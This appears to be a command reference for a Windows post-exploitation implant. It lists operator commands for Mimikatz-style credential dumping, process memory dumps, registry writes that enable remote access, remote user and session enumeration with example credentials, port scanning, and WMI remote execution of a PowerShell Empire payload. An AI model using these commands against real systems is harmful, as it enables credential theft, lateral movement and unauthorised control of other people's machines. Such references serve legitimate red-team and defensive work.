 ```Mimi-All```

Retrieve current directory listing:

```DirectoryListing```

Changes the current directory by appending a specified string to the current working directory:

```ChangeDirectory SomeFolder```

Retrieve hostname:

```Hostname```

Retrieve list of running processes:

```ProcessList```

Creates a minidump of the memory of a running process, requires PID | output location | output name - requires admin:

```ProcDump 2198 C:\Users\JoeBlow\Desktop memorydump.dmp```

Retrieve registry path value, requires full path argument:

```ReadRegistry HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\COM3\BuildNumber```

Write to registry, requires full path argument and value argument:

```WriteRegistry HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\COM3\RemoteAccessEnabled 1```

Retrieve users of local group remotely, requires computername | groupname | username | password:

```NetLocalGroupMembers computerName Administrators domain\username P@55w0rd!```

```NetLocalGroupMembers 192.168.1.20 Administrators .\username P@55w0rd!```

Retrieve local groups remotely, requires computername | username | password:

```NetLocalGroups computerName domain\username P@55w0rd!```

```NetLocalGroups 192.168.1.20 .\username P@55w0rd!```

Retrieve current logged on users remotely, requires computername | username | password:

```NetLoggedOnUsers computerName domain\username P@55w0rd!```

```NetLoggedOnUsers 192.168.1.20 .\username P@55w0rd!```

Retrieve user sessions remotely, requires computername | username | password:

```NetSessions computerName domain\username P@55w0rd!```

```NetSessions 192.168.1.20 .\username P@55w0rd!```

Ping systems, requires computernames:

```Ping computer1 computer2 computer3 computer4```

Port scan systems, requires computername | ports:

```PortScan computer1 80 443 445 22 23```

Run command remotely via WMI, requires computername | username | password | command - requires admin:

```WMI computer1 domain\username P@55w0rd! <entire powershell empire payload>```
```